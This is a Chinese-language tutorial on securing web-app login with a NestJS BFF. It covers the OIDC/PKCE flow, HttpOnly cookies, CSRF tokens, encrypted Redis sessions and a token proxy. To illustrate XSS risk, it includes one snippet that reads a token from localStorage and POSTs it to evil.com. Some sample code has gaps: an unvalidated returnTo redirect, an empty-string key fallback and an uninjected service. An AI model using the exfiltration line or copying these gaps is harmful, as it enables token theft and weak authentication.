


# Web 应用接入（BFF 模式）

## 本篇导读

### 核心目标

学完本篇后，你将能够：

- 理解 BFF（Backend For Frontend）模式的架构原理，以及它相对纯前端模式在安全性上的核心优势
- 实现 BFF 服务端完整的 OAuth2/OIDC 授权码流程，包括 state 管理、代码换 Token、用户信息获取
- 掌握 HttpOnly Cookie 的正确配置，用 Cookie 替代前端存储 Token，彻底消除 XSS 窃取 Token 的风险
- 实现 BFF 的 Token 代理机制——前端发出的 API 请求经过 BFF，由 BFF 自动附加 Access Token

### 重点与难点

**重点**：

- BFF 的核心价值——将 Token 从浏览器移到服务端，XSS 无法再直接窃取 Token
- Cookie 的安全配置三件套：`HttpOnly`、`Secure`、`SameSite`
- Token 代理的设计——前端只和 BFF 交互，BFF 作为前端和资源服务器之间的可信中间层

**难点**：

- BFF 的 CSRF 防护——使用了 Cookie，就必须防止 CSRF 攻击
- Token 刷新在服务端的管理——BFF 如何在 Access Token 过期时自动刷新，且对前端透明
- 分布式 BFF 下的 Session 一致性——多实例 BFF 下，Session 必须存储在共享的 Redis 中，而非内存

## BFF 模式的架构原理

### 什么是 BFF

BFF（Backend For Frontend，面向前端的后端）这个概念由 Sam Newman 在 2015 年提出。在认证场景中，BFF 扮演的角色是：**替前端持有和管理 Token**。



在这个架构中：

- **SPA** 只和 BFF 交互，发出的请求不携带 Token，只携带 Session Cookie
- **BFF** 是唯一持有 Access Token 和 Refresh Token 的地方，Token 存在服务端的 Redis Session 中
- **Token** 永远不出现在浏览器的任何存储或 JavaScript 代码中

### XSS 不再能窃取 Token

这是 BFF 模式最重要的安全特性。

在纯前端模式中，XSS 攻击者只需要在 JavaScript 中执行：

```javascript
// XSS 攻击者可以在纯前端模式下这样窃取 Token
const token = localStorage.getItem('auth_access_token');
fetch('https://evil.com/steal', { method: 'POST', body: token });
```

在 BFF 模式中，Token 从未出现在浏览器，上述代码什么也拿不到。攻击者能做到的是：

- 以用户身份向 BFF 发起请求（因为浏览器会自动带上 Session Cookie）
- 但无论如何无法 **带走** Token 本身

两种模式在 XSS 场景下的危害对比：

| 场景 | 纯前端模式 | BFF 模式 |
|------|-----------|---------|
| 攻击者能做什么 | 窃取 Token 后在任意设备上无限制使用 | 在当前浏览器会话中冒充用户发请求 |
| 攻击者是否能在另一台设备上使用 | 能（Token 可复制） | 不能（Session Cookie 带 HttpOnly，无法被读取和转移） |
| 攻击窗口 | Access Token 有效期内 + Refresh Token 有效期内 | 受害者浏览器关闭前，或 BFF Session 过期前 |

### BFF 并非免费的午餐

BFF 模式带来安全提升的同时，也带来额外的成本：

**运维成本**：引入了一个必须高可用的 BFF 服务。BFF 挂了，整个认证流程都中断。

**延迟增加**：每个前端 API 请求都需要经过 BFF 中转，增加了一次服务间网络调用的延迟。

**CSRF 防护**：使用 Cookie 就必须防止 CSRF 攻击（纯前端模式使用 Authorization Header，天然免疫 CSRF）。

**水平扩展复杂**：BFF 的 Session 不能存在内存里，必须使用 Redis 等共享存储，否则多实例 BFF 下，用户的请求被路由到不同实例时 Session 会丢失。

### 适合 BFF 模式的场景

- 对 Token 安全有强要求的应用（金融、医疗、政务系统）
- 本来就有 Node.js BFF 层的现有架构（追加认证功能成本低）
- 需要做 API 聚合和数据编排的场景（BFF 本来就有意义）
- 团队有能力维护服务端组件

如果是纯静态部署、CDN 分发的工具类网站，引入 BFF 的运维成本可能不值得，纯前端模式更合适。

## 服务端完成 OAuth 流程

### BFF 的认证流程时序

```mermaid
sequenceDiagram
    participant Browser as 浏览器（SPA）
    participant BFF as BFF（NestJS）
    participant Redis as Redis
    participant OIDC as OIDC 授权服务器

    Browser->>BFF: GET /auth/login?returnTo=/dashboard
    BFF->>BFF: 生成 code_verifier、code_challenge、state
    BFF->>Redis: 存储 state + code_verifier（TTL 10分钟）
    BFF->>Browser: 302 → OIDC /oauth/authorize?...（附 PKCE 参数）

    Browser->>OIDC: 跟随重定向，显示登录页
    Note over Browser,OIDC: 用户完成登录和授权
    OIDC->>Browser: 302 → BFF /auth/callback?code=AUTH_CODE&state=xxx

    Browser->>BFF: GET /auth/callback?code=AUTH_CODE&state=xxx
    BFF->>Redis: 取出并验证 state，获取 code_verifier
    BFF->>OIDC: POST /oauth/token（code + code_verifier + client_secret）
    Note over BFF,OIDC: BFF 是机密客户端，有 client_secret
    OIDC->>BFF: { access_token, refresh_token, id_token, expires_in }

    BFF->>Redis: 创建 Session，加密存储 Token
    BFF->>Browser: 302 → /dashboard（Set-Cookie: sess_id=xxx; HttpOnly; Secure）

    Browser->>BFF: GET /api/user（Cookie: sess_id=xxx）
    BFF->>Redis: 用 sess_id 取出 Session，获取 Access Token
    BFF->>OIDC: GET /oauth/userinfo（Bearer AT）
    OIDC->>BFF: 用户信息
    BFF->>Browser: 用户信息（不含 Token）
```

与纯前端模式相比，BFF 模式下 BFF 是 **机密客户端（Confidential Client）**，可以持有 `client_secret`，Token 交换在服务端完成，更加安全。

### NestJS BFF 项目结构

```plaintext
bff/
├── src/
│   ├── auth/
│   │   ├── auth.module.ts
│   │   ├── auth.controller.ts       # /auth/login, /auth/callback, /auth/logout
│   │   ├── auth.service.ts          # OIDC 流程逻辑
│   │   ├── pkce.util.ts             # PKCE 工具函数
│   │   └── session.service.ts       # BFF Session 管理
│   ├── proxy/
│   │   ├── proxy.module.ts
│   │   ├── proxy.middleware.ts      # Token 代理中间件
│   │   └── token-refresh.middleware.ts
│   ├── redis/
│   │   └── redis.service.ts
│   └── app.module.ts
└── package.json
```

### PKCE 工具函数（服务端）

服务端使用 Node.js 内置的 `crypto` 模块：

```typescript
// src/auth/pkce.util.ts
import { randomBytes, createHash } from 'crypto';

export function generateCodeVerifier(): string {
  return randomBytes(43).toString('base64url');
}

export function generateCodeChallenge(verifier: string): string {
  return createHash('sha256').update(verifier).digest('base64url');
}

export function generateState(): string {
  return randomBytes(32).toString('base64url');
}
```

### 登录端点：发起 OAuth 授权

```typescript
// src/auth/auth.controller.ts
import { Controller, Get, Query, Req, Res } from '@nestjs/common';
import { Request, Response } from 'express';
import { AuthService } from './auth.service';

@Controller('auth')
export class AuthController {
  constructor(private readonly authService: AuthService) {}

  @Get('login')
  async login(
    @Query('returnTo') returnTo: string = '/',
    @Res() res: Response
  ): Promise<void> {
    const authorizeUrl = await this.authService.buildAuthorizeUrl(returnTo);
    res.redirect(authorizeUrl);
  }

  @Get('callback')
  async callback(
    @Query('code') code: string,
    @Query('state') state: string,
    @Query('error') error: string,
    @Res() res: Response
  ): Promise<void> {
    if (error) {
      res.redirect(`/?error=${encodeURIComponent(error)}`);
      return;
    }

    const { sessionId, returnTo } = await this.authService.handleCallback(
      code,
      state
    );

    // 设置 Session Cookie
    res.cookie('sess_id', sessionId, {
      httpOnly: true, // JS 无法读取
      secure: true, // 仅 HTTPS 传输
      sameSite: 'lax', // 防 CSRF
      path: '/',
      maxAge: 7 * 24 * 60 * 60 * 1000, // 7 天
    });

    res.redirect(returnTo ?? '/');
  }

  @Get('logout')
  async logout(@Req() req: Request, @Res() res: Response): Promise<void> {
    const sessionId = req.cookies?.['sess_id'];
    if (sessionId) {
      await this.authService.logout(sessionId);
    }
    res.clearCookie('sess_id', { path: '/' });
    res.redirect('/');
  }

  @Get('me')
  async getCurrentUser(@Req() req: Request, @Res() res: Response): Promise<void> {
    const sessionId = req.cookies?.['sess_id'];
    if (!sessionId) {
      res.status(401).json({ error: 'Not authenticated' });
      return;
    }

    const session = await this.sessionService.get(sessionId);
    if (!session) {
      res.status(401).json({ error: 'Session expired' });
      return;
    }

    res.json({ user: session.user });
  }
}
```

### AuthService：核心流程实现

```typescript
// src/auth/auth.service.ts
import { Injectable } from '@nestjs/common';
import { ConfigService } from '@nestjs/config';
import { RedisService } from '../redis/redis.service';
import { SessionService } from './session.service';
import {
  generateCodeVerifier,
  generateCodeChallenge,
  generateState,
} from './pkce.util';

interface OidcConfig {
  issuer: string;
  authorizeEndpoint: string;
  tokenEndpoint: string;
  userinfoEndpoint: string;
  clientId: string;
  clientSecret: string;
  redirectUri: string;
  scopes: string[];
}

interface PkceSession {
  codeVerifier: string;
  state: string;
  returnTo: string;
}

@Injectable()
export class AuthService {
  private readonly oidc: OidcConfig;
  private readonly PKCE_SESSION_TTL = 600; // 10 分钟

  constructor(
    private readonly config: ConfigService,
    private readonly redis: RedisService,
    private readonly sessionService: SessionService
  ) {
    this.oidc = {
      issuer: this.config.getOrThrow('OIDC_ISSUER'),
      authorizeEndpoint: this.config.getOrThrow('OIDC_AUTHORIZE_ENDPOINT'),
      tokenEndpoint: this.config.getOrThrow('OIDC_TOKEN_ENDPOINT'),
      userinfoEndpoint: this.config.getOrThrow('OIDC_USERINFO_ENDPOINT'),
      clientId: this.config.getOrThrow('OIDC_CLIENT_ID'),
      clientSecret: this.config.getOrThrow('OIDC_CLIENT_SECRET'),
      redirectUri: this.config.getOrThrow('OIDC_REDIRECT_URI'),
      scopes: ['openid', 'profile', 'email'],
    };
  }

  // 构造授权 URL，同时在 Redis 中存储 PKCE Session
  async buildAuthorizeUrl(returnTo: string): Promise<string> {
    const codeVerifier = generateCodeVerifier();
    const codeChallenge = generateCodeChallenge(codeVerifier);
    const state = generateState();

    // 将 PKCE 信息存入 Redis（不存在 Cookie 里，防止 Cookie 被篡改）
    const pkceKey = `pkce:${state}`;
    const pkceData: PkceSession = { codeVerifier, state, returnTo };
    await this.redis.setex(pkceKey, this.PKCE_SESSION_TTL, JSON.stringify(pkceData));

    const params = new URLSearchParams({
      response_type: 'code',
      client_id: this.oidc.clientId,
      redirect_uri: this.oidc.redirectUri,
      scope: this.oidc.scopes.join(' '),
      code_challenge: codeChallenge,
      code_challenge_method: 'S256',
      state,
    });

    return `${this.oidc.authorizeEndpoint}?${params.toString()}`;
  }

  // 处理回调：验证 state、换取 Token、创建 BFF Session
  async handleCallback(
    code: string,
    state: string
  ): Promise<{ sessionId: string; returnTo: string }> {
    // 1. 从 Redis 取出并验证 PKCE Session
    const pkceKey = `pkce:${state}`;
    const pkceRaw = await this.redis.get(pkceKey);
    if (!pkceRaw) {
      throw new Error('Invalid or expired state parameter');
    }

    const pkceData = JSON.parse(pkceRaw) as PkceSession;

    // 验证 state 一致性（防 CSRF）
    if (pkceData.state !== state) {
      throw new Error('State mismatch');
    }

    // 立即删除 PKCE Session（防止重放攻击）
    await this.redis.del(pkceKey);

    // 2. 用授权码换取 Token
    const tokenResponse = await this.exchangeCodeForTokens(code, pkceData.codeVerifier);

    // 3. 获取用户信息
    const userInfo = await this.fetchUserInfo(tokenResponse.access_token);

    // 4. 创建 BFF Session
    const sessionId = await this.sessionService.create({
      userId: userInfo.sub,
      user: userInfo,
      accessToken: tokenResponse.access_token,
      refreshToken: tokenResponse.refresh_token,
      accessTokenExpiresAt: Date.now() + (tokenResponse.expires_in - 30) * 1000,
    });

    return { sessionId, returnTo: pkceData.returnTo };
  }

  private async exchangeCodeForTokens(
    code: string,
    codeVerifier: string
  ): Promise<TokenResponse> {
    const response = await fetch(this.oidc.tokenEndpoint, {
      method: 'POST',
      headers: { 'Content-Type': 'application/x-www-form-urlencoded' },
      body: new URLSearchParams({
        grant_type: 'authorization_code',
        code,
        client_id: this.oidc.clientId,
        client_secret: this.oidc.clientSecret,
        redirect_uri: this.oidc.redirectUri,
        code_verifier: codeVerifier,
      }),
    });

    if (!response.ok) {
      const error = await response.json();
      throw new Error(`Token exchange failed: ${JSON.stringify(error)}`);
    }

    return response.json() as Promise<TokenResponse>;
  }

  private async fetchUserInfo(accessToken: string): Promise<UserInfoClaims> {
    const response = await fetch(this.oidc.userinfoEndpoint, {
      headers: { Authorization: `Bearer ${accessToken}` },
    });

    if (!response.ok) {
      throw new Error('Failed to fetch user info');
    }

    return response.json() as Promise<UserInfoClaims>;
  }

  async logout(sessionId: string): Promise<void> {
    await this.sessionService.destroy(sessionId);
  }
}

interface TokenResponse {
  access_token: string;
  refresh_token: string;
  id_token: string;
  expires_in: number;
  token_type: 'Bearer';
}

interface UserInfoClaims {
  sub: string;
  email: string;
  name: string;
  picture?: string;
}
```

## HttpOnly Cookie 与 CSRF 防护

### Cookie 安全配置详解

BFF 给浏览器设置的 Session Cookie 必须正确配置，三个属性缺一不可：

#### HttpOnly：阻断 JavaScript 读取

```typescript
res.cookie('sess_id', sessionId, {
  httpOnly: true, // 关键！
  // ...
});
```

`HttpOnly` Cookie 只能由浏览器在 HTTP 请求中自动发送，JavaScript 代码（包括 XSS 注入的代码）无法通过 `document.cookie` 读取。

这是 BFF 模式的核心安全保证：即使 XSS 攻击成功，攻击者能通过注入的 JavaScript 读到的是一个空字符串，而不是 Session ID。

#### Secure：强制 HTTPS 传输

`Secure` 属性意味着浏览器只会在 HTTPS 请求中带上这个 Cookie。生产环境必须 `secure: true`。

#### SameSite：CSRF 防护的第一道防线

`SameSite` 属性控制浏览器在跨站请求时是否发送 Cookie：

- `SameSite=Strict`：完全禁止跨站发送 Cookie。用户体验差（从搜索结果或外链点进来时，也不携带 Cookie）。
- `SameSite=Lax`（推荐）：允许安全的跨站顶级导航（GET 请求跳转）携带 Cookie，但跨站的 POST/PUT/DELETE 等修改性请求不携带 Cookie。这阻止了大多数 CSRF 攻击。
- `SameSite=None`：所有跨站请求都携带 Cookie，必须配合 `Secure` 使用。

```typescript
res.cookie('sess_id', sessionId, {
  httpOnly: true,
  secure: true,
  sameSite: 'lax',
  path: '/',
  maxAge: 7 * 24 * 60 * 60 * 1000,
});
```

### CSRF 防护：Double Submit Cookie

虽然 `SameSite=Lax` 能阻止大多数 CSRF 攻击，但有些旧浏览器不支持 `SameSite`，或者某些场景下需要额外防护。

**Double Submit Cookie 模式**是最常用的 CSRF Token 方案，无需服务端存储：

原理：

1. 服务端在用户访问时生成一个随机 CSRF Token，以不带 `HttpOnly` 的 Cookie 发给浏览器
2. JavaScript 代码读取这个 Cookie 中的 CSRF Token，并在每个修改性请求（POST/PUT/DELETE）的 Header 中也发送这个值
3. BFF 收到请求时，验证 Cookie 中的 CSRF Token 和 Header 中的值是否一致
4. 攻击者无法构造这个一致性（他们的恶意页面无法读取其他域的 Cookie）

前端请求示例：

```typescript
// 前端 API 请求工具
function getCsrfToken(): string {
  return (
    document.cookie
      .split('; ')
      .find((c) => c.startsWith('csrf_token='))
      ?.split('=')[1] ?? ''
  );
}

export async function apiRequest(path: string, options: RequestInit = {}): Promise<Response> {
  const method = options.method?.toUpperCase() ?? 'GET';
  const isModifying = ['POST', 'PUT', 'PATCH', 'DELETE'].includes(method);

  const headers: HeadersInit = {
    'Content-Type': 'application/json',
    ...options.headers,
  };

  if (isModifying) {
    (headers as Record<string, string>)['x-csrf-token'] = getCsrfToken();
  }

  return fetch(`/api${path}`, {
    ...options,
    credentials: 'include',
    headers,
  });
}
```

## BFF Session 设计

### Session 数据结构

BFF Session 存储在 Redis 中，包含用户信息和 Token。Token 应该加密存储（防止 Redis 被攻击时直接泄露 Token）：

```typescript
// src/auth/session.service.ts（简化版）
import { Injectable } from '@nestjs/common';
import { RedisService } from '../redis/redis.service';
import { randomBytes, createCipheriv, createDecipheriv, scryptSync } from 'crypto';

interface SessionData {
  userId: string;
  user: { id: string; email: string; name: string; avatar?: string };
  encryptedAccessToken: string;
  encryptedRefreshToken: string;
  accessTokenExpiresAt: number;
  createdAt: number;
  lastAccessedAt: number;
}

@Injectable()
export class SessionService {
  private readonly SESSION_TTL = 7 * 24 * 60 * 60; // 7 天
  private readonly KEY_PREFIX = 'bff:session:';
  private readonly encryptionKey: Buffer;

  constructor(private readonly redis: RedisService) {
    const keyMaterial = process.env.SESSION_ENCRYPTION_KEY ?? '';
    this.encryptionKey = scryptSync(keyMaterial, 'bff-session-salt', 32);
  }

  async create(params: {
    userId: string;
    user: SessionData['user'];
    accessToken: string;
    refreshToken: string;
    accessTokenExpiresAt: number;
  }): Promise<string> {
    const sessionId = randomBytes(32).toString('base64url');
    const now = Date.now();

    const sessionData: SessionData = {
      userId: params.userId,
      user: params.user,
      encryptedAccessToken: this.encrypt(params.accessToken),
      encryptedRefreshToken: this.encrypt(params.refreshToken),
      accessTokenExpiresAt: params.accessTokenExpiresAt,
      createdAt: now,
      lastAccessedAt: now,
    };

    await this.redis.setex(
      `${this.KEY_PREFIX}${sessionId}`,
      this.SESSION_TTL,
      JSON.stringify(sessionData)
    );

    return sessionId;
  }

  async get(sessionId: string): Promise<SessionData | null> {
    const raw = await this.redis.get(`${this.KEY_PREFIX}${sessionId}`);
    if (!raw) return null;

    const session = JSON.parse(raw) as SessionData;

    // 滑动过期：每次访问重置 TTL（7 天）
    session.lastAccessedAt = Date.now();
    await this.redis.setex(
      `${this.KEY_PREFIX}${sessionId}`,
      this.SESSION_TTL,
      JSON.stringify(session)
    );

    return session;
  }

  async getAccessToken(sessionId: string): Promise<string | null> {
    const session = await this.get(sessionId);
    if (!session) return null;
    return this.decrypt(session.encryptedAccessToken);
  }

  async getRefreshToken(sessionId: string): Promise<string | null> {
    const session = await this.get(sessionId);
    if (!session) return null;
    return this.decrypt(session.encryptedRefreshToken);
  }

  async updateTokens(
    sessionId: string,
    accessToken: string,
    refreshToken: string,
    accessTokenExpiresAt: number
  ): Promise<void> {
    const session = await this.get(sessionId);
    if (!session) return;

    session.encryptedAccessToken = this.encrypt(accessToken);
    session.encryptedRefreshToken = this.encrypt(refreshToken);
    session.accessTokenExpiresAt = accessTokenExpiresAt;

    await this.redis.setex(
      `${this.KEY_PREFIX}${sessionId}`,
      this.SESSION_TTL,
      JSON.stringify(session)
    );
  }

  async destroy(sessionId: string): Promise<void> {
    await this.redis.del(`${this.KEY_PREFIX}${sessionId}`);
  }

  // AES-256-GCM 加密
  private encrypt(plaintext: string): string {
    const iv = randomBytes(12);
    const cipher = createCipheriv('aes-256-gcm', this.encryptionKey, iv);
    const encrypted = Buffer.concat([cipher.update(plaintext, 'utf8'), cipher.final()]);
    const authTag = cipher.getAuthTag();
    return Buffer.concat([iv, authTag, encrypted]).toString('base64url');
  }

  private decrypt(ciphertext: string): string {
    const buf = Buffer.from(ciphertext, 'base64url');
    const iv = buf.subarray(0, 12);
    const authTag = buf.subarray(12, 28);
    const encrypted = buf.subarray(28);
    const decipher = createDecipheriv('aes-256-gcm', this.encryptionKey, iv);
    decipher.setAuthTag(authTag);
    return decipher.update(encrypted) + decipher.final('utf8');
  }
}
```

### 为什么要加密存储 Token

Redis 通常被视为受信任的内部存储，但"深度防御"原则要求我们不产生单点信任：

- 如果 Redis 暴露在不安全的网络中（配置错误），明文 Token 直接泄露
- 内部人员攻击：有 Redis 权限的人员可以读取所有用户的 Token
- 加密成本很低（AES 是硬件级加速），没有理由不加密

## Token 代理

### 代理的设计思路

BFF 的核心功能之一是作为前端和业务 API 之间的代理。前端不需要知道业务 API 的地址，也不需要管理 Token——BFF 根据前端请求中携带的 Session Cookie，取出 Access Token，代理转发给业务 API。



### Token 刷新中间件

在代理请求前，BFF 检查 Session 中的 Access Token 是否临近过期，如果是则自动刷新：

```typescript
// src/proxy/token-refresh.middleware.ts
import { Injectable, NestMiddleware, UnauthorizedException } from '@nestjs/common';
import { Request, Response, NextFunction } from 'express';
import { SessionService } from '../auth/session.service';
import { ConfigService } from '@nestjs/config';

@Injectable()
export class TokenRefreshMiddleware implements NestMiddleware {
  private refreshLocks = new Map<string, Promise<void>>();

  constructor(
    private readonly sessionService: SessionService,
    private readonly config: ConfigService
  ) {}

  async use(req: Request, res: Response, next: NextFunction): Promise<void> {
    const sessionId = req.cookies?.['sess_id'];
    if (!sessionId) {
      throw new UnauthorizedException('No session');
    }

    const session = await this.sessionService.get(sessionId);
    if (!session) {
      throw new UnauthorizedException('Session expired or invalid');
    }

    // 提前 60 秒检查过期
    const needsRefresh = session.accessTokenExpiresAt - Date.now() < 60_000;

    if (needsRefresh) {
      await this.refreshWithLock(sessionId);
    }

    req['sessionId'] = sessionId;
    next();
  }

  private async refreshWithLock(sessionId: string): Promise<void> {
    const existingLock = this.refreshLocks.get(sessionId);
    if (existingLock) return existingLock;

    const refreshPromise = this.doRefresh(sessionId).finally(() => {
      this.refreshLocks.delete(sessionId);
    });

    this.refreshLocks.set(sessionId, refreshPromise);
    return refreshPromise;
  }

  private async doRefresh(sessionId: string): Promise<void> {
    const refreshToken = await this.sessionService.getRefreshToken(sessionId);
    if (!refreshToken) {
      throw new UnauthorizedException('No refresh token');
    }

    const tokenEndpoint = this.config.getOrThrow('OIDC_TOKEN_ENDPOINT');
    const clientId = this.config.getOrThrow('OIDC_CLIENT_ID');
    const clientSecret = this.config.getOrThrow('OIDC_CLIENT_SECRET');

    const response = await fetch(tokenEndpoint, {
      method: 'POST',
      headers: { 'Content-Type': 'application/x-www-form-urlencoded' },
      body: new URLSearchParams({
        grant_type: 'refresh_token',
        refresh_token: refreshToken,
        client_id: clientId,
        client_secret: clientSecret,
      }),
    });

    if (!response.ok) {
      await this.sessionService.destroy(sessionId);
      throw new UnauthorizedException('Refresh token expired, please login again');
    }

    const tokens: { access_token: string; refresh_token: string; expires_in: number } =
      await response.json();

    await this.sessionService.updateTokens(
      sessionId,
      tokens.access_token,
      tokens.refresh_token,
      Date.now() + (tokens.expires_in - 30) * 1000
    );
  }
}
```

### 代理中间件：转发请求

```typescript
// src/proxy/proxy.middleware.ts
import { Injectable, NestMiddleware } from '@nestjs/common';
import { Request, Response, NextFunction } from 'express';
import { SessionService } from '../auth/session.service';
import { ConfigService } from '@nestjs/config';

@Injectable()
export class ProxyMiddleware implements NestMiddleware {
  private readonly apiBaseUrl: string;

  constructor(
    private readonly sessionService: SessionService,
    private readonly config: ConfigService
  ) {
    this.apiBaseUrl = this.config.getOrThrow('UPSTREAM_API_BASE_URL');
  }

  async use(req: Request, res: Response, next: NextFunction): Promise<void> {
    const sessionId = req['sessionId'] as string;
    const accessToken = await this.sessionService.getAccessToken(sessionId);

    if (!accessToken) {
      res.status(401).json({ error: 'Unauthorized' });
      return;
    }

    const targetUrl = `${this.apiBaseUrl}${req.path}`;

    const forwardHeaders: Record<string, string> = {
      Authorization: `Bearer ${accessToken}`,
      'Content-Type': req.headers['content-type'] ?? 'application/json',
      'X-Forwarded-For': req.ip ?? '',
    };

    const proxyResponse = await fetch(targetUrl, {
      method: req.method,
      headers: forwardHeaders,
      body: ['GET', 'HEAD'].includes(req.method) ? undefined : JSON.stringify(req.body),
    });

    res.status(proxyResponse.status);
    const skipHeaders = new Set(['transfer-encoding', 'connection', 'keep-alive']);
    proxyResponse.headers.forEach((value, key) => {
      if (!skipHeaders.has(key.toLowerCase())) {
        res.setHeader(key, value);
      }
    });

    res.send(await proxyResponse.text());
  }
}
```

### 中间件注册

```typescript
// src/proxy/proxy.module.ts
import { Module, NestModule, MiddlewareConsumer, RequestMethod } from '@nestjs/common';
import { TokenRefreshMiddleware } from './token-refresh.middleware';
import { ProxyMiddleware } from './proxy.middleware';

@Module({})
export class ProxyModule implements NestModule {
  configure(consumer: MiddlewareConsumer): void {
    consumer
      .apply(TokenRefreshMiddleware, ProxyMiddleware)
      .forRoutes({ path: '/api/*', method: RequestMethod.ALL });
  }
}
```

## 前端：与 BFF 集成

### 认证状态管理

前端不再持有 Token，改为向 BFF 查询登录状态：

```typescript
// src/auth/auth.ts（前端代码）
export async function checkAuthStatus(): Promise<UserInfo | null> {
  const response = await fetch('/auth/me', {
    credentials: 'include',
  });

  if (response.status === 401) return null;
  if (!response.ok) throw new Error('Failed to check auth status');

  const data = await response.json();
  return data.user as UserInfo;
}

export function startLogin(returnTo?: string): void {
  const params = new URLSearchParams({
    returnTo: returnTo ?? window.location.pathname,
  });
  window.location.href = `/auth/login?${params.toString()}`;
}

export async function logout(): Promise<void> {
  await fetch('/auth/logout', {
    method: 'GET',
    credentials: 'include',
  });
  window.location.href = '/';
}
```

### React AuthProvider

```typescript
// src/auth/AuthProvider.tsx
import { createContext, useContext, useEffect, useState } from 'react';
import { checkAuthStatus, startLogin, logout } from './auth';

interface AuthContextValue {
  user: UserInfo | null;
  isLoading: boolean;
  isAuthenticated: boolean;
  login: (returnTo?: string) => void;
  logout: () => Promise<void>;
}

const AuthContext = createContext<AuthContextValue | null>(null);

export function AuthProvider({ children }: { children: React.ReactNode }) {
  const [user, setUser] = useState<UserInfo | null>(null);
  const [isLoading, setIsLoading] = useState(true);

  useEffect(() => {
    checkAuthStatus()
      .then(setUser)
      .catch(() => setUser(null))
      .finally(() => setIsLoading(false));
  }, []);

  return (
    <AuthContext.Provider
      value={{
        user,
        isLoading,
        isAuthenticated: user !== null,
        login: startLogin,
        logout: async () => {
          await logout();
          setUser(null);
        },
      }}
    >
      {children}
    </AuthContext.Provider>
  );
}

export function useAuth(): AuthContextValue {
  const ctx = useContext(AuthContext);
  if (!ctx) throw new Error('useAuth must be used within AuthProvider');
  return ctx;
}
```

### API 请求工具

所有 API 请求走 BFF 代理，前端无需管理 Token：

```typescript
// src/api/client.ts
import { startLogin } from '../auth/auth';

export class ApiClient {
  async request<T>(path: string, options: RequestInit = {}): Promise<T> {
    const method = options.method?.toUpperCase() ?? 'GET';
    const isModifying = ['POST', 'PUT', 'PATCH', 'DELETE'].includes(method);

    const response = await fetch(`/api${path}`, {
      ...options,
      credentials: 'include',
      headers: {
        'Content-Type': 'application/json',
        ...(isModifying ? { 'x-csrf-token': getCsrfToken() } : {}),
        ...options.headers,
      },
    });

    if (response.status === 401) {
      startLogin(window.location.pathname);
      throw new Error('Unauthorized');
    }

    if (!response.ok) {
      throw new Error(`API request failed: ${response.status}`);
    }

    return response.json() as Promise<T>;
  }

  get<T>(path: string): Promise<T> {
    return this.request<T>(path);
  }

  post<T>(path: string, body: unknown): Promise<T> {
    return this.request<T>(path, { method: 'POST', body: JSON.stringify(body) });
  }

  put<T>(path: string, body: unknown): Promise<T> {
    return this.request<T>(path, { method: 'PUT', body: JSON.stringify(body) });
  }

  delete<T>(path: string): Promise<T> {
    return this.request<T>(path, { method: 'DELETE' });
  }
}

function getCsrfToken(): string {
  return (
    document.cookie
      .split('; ')
      .find((c) => c.startsWith('csrf_token='))
      ?.split('=')[1] ?? ''
  );
}

export const apiClient = new ApiClient();
```

## 本篇小结

BFF 模式通过将 Token 管理完全迁移到服务端，从根本上消除了 XSS 窃取 Token 的可能性：

**核心安全改进**：Token 从未出现在浏览器的 JavaScript 环境中。BFF Session 用 Session Cookie（HttpOnly）代替 Token，即使 XSS 成功注入代码，也无法提取任何 Token 信息，只能在当前受害者的浏览器会话中发起请求。

**Cookie 安全三件套**：`HttpOnly` 阻止 JavaScript 读取 Cookie；`Secure` 强制 HTTPS 传输；`SameSite=Lax` 阻断大多数 CSRF 攻击。三者同时配置才能发挥完整的防护效果。

**服务端 Token 加密**：即使 Redis 被攻破，加密存储的 Token（AES-256-GCM）也无法被直接利用。认证加密（AEAD）的使用还额外防止了密文被篡改。

